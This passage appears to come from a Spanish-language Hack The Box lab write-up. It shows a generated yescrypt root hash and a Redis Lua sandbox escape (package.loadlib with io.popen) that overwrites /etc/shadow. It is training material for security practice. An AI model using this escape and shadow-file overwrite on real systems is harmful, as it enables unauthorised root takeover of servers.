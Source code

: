   <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shared/483bash_shadowFile_original.png" style="width: 100%;"/>

* Creamos una nueva contraseña para el usuario **root**.

  Lo que necesitamos saber ahora es que tipo de algoritmo está usando el sistema para las contraseñas, para así mismo crear nuestro hash (contraseña). Buscando algo como `$y$ hash` llegamos a este hilo:

  * [Can anyone identify the $y$ hash prefix or identify what hash this could be?](https://security.stackexchange.com/questions/248994/can-anyone-identify-the-y-hash-prefix-or-identify-what-hash-this-could-be)

  Y entre los comentarios vemos:

  ```txt
  So it turns out that it is a yescrypt hash and isn't supported by hashcat for cracking yet
  ```

  El algoritmo se llama **yescrypt**, podemos jugar con `mkpasswd` para crear una contraseña con ese cifrado, pero por cambiar vamos a usar una imagen de **Docker** la cual hace lo mismo:

  * [How to run mkpasswd with yescrypt on Ubuntu/Debian](https://techoverflow.net/2021/05/15/how-to-run-mkpasswd-with-yescrypt-on-ubuntu-debian/).

  ...

  ```bash
  docker run --rm -it ulikoehler/mkpasswd
  ```
  
  Nos pregunta que queremos cifrar, colocamos como contraseña `dosisdericura`, finalmente tenemos este hash:

  ```bash
  ❯ docker run --rm -it ulikoehler/mkpasswd
  Password: 
  $y$j9T$SgowYS.jH5YSZej5wcD3e/$5pZr8B4vMcVpbyiAqtVSD3PVsoSPRR2yzobyPI06gh7
  ```

  Entonces, entramos al objeto **shadow**, cambiamos lo que está entre **root:****`...`****:19186:0:99999:7:::** por el nuevo hash:

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shared/483bash_shadowFile_malicious.png" style="width: 100%;"/>

* Reemplazamos el original `/etc/shadow` con el **nuevo** (:
  
  Nos llevamos el archivo en **base64**:

  ```bash
  base64 -w 0 shadow_file
  ```

  Y jugamos con **redis**:

  ```bash
  eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("echo cm9...Ogo= | base64 -d > /etc/shadow", "r"); local res = f:read("*a"); f:close(); return res' 0
  ```
